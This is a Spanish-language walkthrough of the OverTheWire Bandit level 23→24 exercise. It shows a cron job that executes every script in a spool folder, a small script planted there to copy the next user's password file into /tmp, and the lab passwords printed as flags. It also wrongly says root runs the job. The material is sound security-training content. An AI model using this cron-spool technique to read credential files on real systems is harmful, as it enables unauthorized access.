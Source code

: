 #Bandit Level 23 → Level 24

##Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

##Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## Write Up Iker

La contraseña la hemos sacado en el anterior apartado:

**FLAG** = {jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n}

Utilizamos esta contraseña para acceder al siguiente nivel.

```bash 
$ ssh bandit23@bandit.labs.overthewire.org
```

Nos conectamos a la prueba y analizamos como se comporta el programa o Job de **Cron**

```bash
bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 "./$i"
	rm -f "./$i"
    fi
done
```

El enunciado nos dice que tenemos que crear nuestro primer script en Bash y que debemos tenemos una copia nosotros.

Observamos que dentro del fichero **/usr/bin/cronjob_bandit24.sh** tenemos un código que tenemos que analizar/saber que es lo que hace para empezar con el reto. 

Vemos que el usuario quien lo ejecuta los scripts es **root**

```bash
-rw-r--r-- 1 root root  61 May  3  2015 cronjob_bandit24
```

Vemos que ejecuta todos los scripts del directorio **/var/spool/$myname** por lo que podemos crear un script y copiarlo a ese directorio para obtener la contraseña que estará en la ruta **/etc/bandit_pass/bandit24**

```bash
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
```

Vamos a crear el script y vamos a ubicarlo en la ruta donde **Cron** ejecuta la tarea, que es **/var/spool/$myname**

Lo llamaremos **damelapass.sh**

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/iker24
```

Le cambiamos los permisos para que se pueda ejecutar con cualquier usuario y lo copiamos a la carpeta que nos han dicho


```bash
bandit23@melinda:/tmp$ nano damelapass.sh
bandit23@melinda:/tmp$ chmod 777 damelapass.sh  
bandit23@melinda:/tmp$ cp damelapass.sh /var/spool/bandit24
```

Copiando el script a la carpeta **/var/spool/bandit24** la variable **myname=$(whoami)** del script **/usr/bin/cronjob_bandit24.sh** tendrá el valor del usuario **bandit24** haciendo que se ejecute entre otros script el nuestro que hemos creado.

Hacemos un ```cat ```a la variable que hemos creado y obtenemos la pass

```bash
bandit23@melinda:/tmp$ file iker24
iker24: ASCII text
bandit23@melinda:/tmp$ cat iker24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

**FLAG** = {UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ}



